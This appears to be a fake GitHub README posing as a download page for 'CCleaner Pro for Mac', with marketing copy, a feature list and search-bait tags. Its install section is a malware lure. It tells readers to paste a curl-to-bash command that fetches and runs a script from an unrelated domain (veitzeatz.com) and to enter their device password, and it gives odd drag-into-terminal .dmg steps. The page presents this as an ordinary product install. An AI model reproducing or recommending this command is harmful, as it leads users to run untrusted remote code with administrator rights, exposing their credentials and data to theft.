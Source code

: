 # CCleaner Pro for Mac – Optimize and Clean macOS

![CCleaner Pro Mac](https://blitzhandel24.imgbolt.de/media/image/e4/b6/f1/CCleaner-Professional-for-Mac.png)

## 📦 Download CCleaner Pro for Mac – Pro Version

[![⬇️ Download Now](https://img.shields.io/badge/Download-CCleaner%20Pro%20Mac-blue?style=for-the-badge&logo=apple)](https://www.ccleaner.com/ccleaner-mac)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is CCleaner Pro Mac?

**CCleaner Pro Mac** is an advanced cleaning and optimization utility designed specifically for macOS users who want to maintain top system performance with minimal effort. Unlike basic free tools, the Pro edition of CCleaner brings automation, smart cleaning logic, and enhanced privacy features that help keep your Mac running like new.

With modern macOS systems accumulating gigabytes of cache files, logs, duplicates, and digital clutter, CCleaner Pro Mac offers a powerful way to analyze and clean unnecessary system bloat. From browser junk to outdated system files, it helps you regain control over storage while ensuring your personal information stays private.

It’s particularly useful for creatives, developers, or professionals who rely on stable performance and want to avoid manual maintenance. CCleaner Pro also includes a powerful **startup optimizer**, helping to reduce Mac boot time, and a **real-time monitoring system** to catch bloat before it slows you down. Whether you're working on a MacBook Air, MacBook Pro, or iMac – and whether your system runs on Intel or Apple Silicon (M1/M2/M3) – CCleaner Pro Mac is fully optimized for macOS Ventura, Monterey, Sonoma, and beyond.

The Pro version adds **scheduled cleaning**, **automatic background scans**, and **priority support**, making it a smart choice for anyone who needs a set-it-and-forget-it cleaner. It's lightweight, effective, and trusted by millions of users worldwide.

---

![CCleaner Mac Screenshot](https://www.ingeniumweb.com/Themes/InGeniumWeb/Upload/2020/02.png)

---

## ✅ Why choose CCleaner Pro Mac?

Choosing **CCleaner Pro Mac** over free or built-in macOS utilities gives you a level of precision, automation, and control that basic tools simply can't match. Here’s why it stands out:

- **Fully Automated Cleaning**: Schedule system cleanups daily, weekly, or monthly — never think about it again.
- **Smart Junk Detection**: Intelligent algorithms identify which files are safe to delete and which are essential.
- **Real-Time Monitoring**: Get notified when too much clutter builds up, or let it clean automatically.
- **App Management**: Uninstall apps cleanly with zero residual files left behind.
- **Customizable Rules**: Choose exactly which types of files, folders, and apps to exclude from cleaning.
- **Enhanced Privacy**: Permanently erase browsing history, tracking cookies, saved passwords, and more with military-grade deletion.
- **macOS Optimization**: Compatible with both Intel and Apple Silicon chips, it’s tailored for modern Macs.
- **Secure and Trusted**: Developed by Piriform (now owned by Avast), it's a trusted brand in system optimization.

If you value performance, security, and automation on your Mac, **CCleaner Pro Mac** is the right tool to keep your system smooth and clutter-free.

---

## 🚀 Key Features

- 🧹 **Smart Cleaning** – Automatically detects and removes junk, temporary files, and system cache.
- 💾 **Free Up Disk Space** – Reclaims gigabytes of storage by removing clutter.
- 🔒 **Privacy Protection** – Clears browser history, cookies, and trackers.
- 🧠 **Startup Manager** – Disables unnecessary startup apps to improve boot time.
- 🧰 **App Uninstaller** – Cleanly removes apps and leftover files.
- 📆 **Scheduled Cleaning** – Set it once and let it clean automatically.
- 🔍 **Duplicate Finder** – Identifies and deletes duplicate files.
- 🔐 **Secure File Deletion** – Military-grade overwrite of deleted files.

---

## 💻 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space

---

## 🔍 Tags

ccleaner pro mac download, ccleaner pro mac, ccleaner for macbook pro, ccleaner professional for mac, ccleaner pro mac free download
